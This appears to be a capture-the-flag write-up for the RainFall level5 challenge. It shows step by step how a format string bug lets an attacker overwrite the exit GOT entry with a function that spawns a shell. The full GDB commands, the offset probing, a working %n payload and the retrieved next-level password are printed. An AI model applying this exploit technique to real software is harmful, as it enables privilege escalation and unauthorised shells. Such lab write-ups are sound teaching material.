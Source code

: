 # level5 Exploit

## Steps

### 1. Decompile the Binary

Use GDB to disassemble the `level5` binary and understand its functionality:

```bash
level5@RainFall:~$ gdb level5
(gdb) disassemble main
(gdb) disassemble n
(gdb) disassemble o
```

You can convert the assembly code to C using the [CodeConvert](https://www.codeconvert.ai/assembly-to-c++-converter) tool for better understanding.

### 2. Check Available Functions

- The `n` function contains a vulnerable `printf` call because it doesn't use format specifiers.
- An `exit(1)` call is made just after the `printf` call.
- There is an `o` function that launches a shell but is never called:

```c
void o() {
  system("/bin/sh");
  _exit(1);
}
```

### Strategy

Overwrite the call to the `exit` function with a call to the `o` function to get a shell with the privileges needed to read `/home/user/level6/.pass`.

### 3. Find Function Addresses

Use GDB to find the addresses of the functions:

```bash
level5@RainFall:~$ gdb level5
(gdb) info functions
0x080484a4  o
0x080484c2  n
0x08048504  main
```

The address of the `o` function is `0x080484a4`, which is `\xa4\x84\x04\x08` in little-endian format.

To find the address of `exit`, use:

```bash
(gdb) disassemble exit
```

You should see:

```gdb
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>: jmp *0x8049838
   ...
```

The address of `exit` is `0x08049838`, which is `\x38\x98\x04\x08` in little-endian format.

### 4. Determine Format String Offset

Determine the position where `printf` writes the string:

```bash
level5@RainFall:~$ ./level5
AAAA%08x.%08x.%08x.%08x.%08x.%08x
```

The output reveals:

```
AAAA00000200.f7ee5580.00000000.41414141...
```

The `41414141` (corresponding to `AAAA` in ASCII) indicates that the `printf` argument position is at the 4th position.

### 5. Create the Exploit

The address of the `o` function in decimal is `134513828`. Subtract the 4 bytes of the address string: `134513828 - 4 = 134513824`.

Create the exploit string:

```bash
level5@RainFall:~$ python -c 'print("\x38\x98\x04\x08%134513824d%4$n")'
```

### 6. Execute the Exploit

Execute the exploit while keeping `stdin` open:

```bash
level5@RainFall:~$ (python -c 'print("\x38\x98\x04\x08%134513824d%4$n")' ; cat) | ./level5
```

Once the shell is open, execute commands:

```bash
$ cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

### Explanation

1. **Format String Vulnerability**: `printf` without format specifiers allows unintended memory reads and writes.
2. **%n Specifier**: Used to write the number of characters printed so far to an address specified on the stack.
3. **Offset Calculation**: Determines where the format string parameters are on the stack to correctly position the address of `o`.
4. **Exploit String**: Crafted to write the address of `o` in place of the address of `exit`.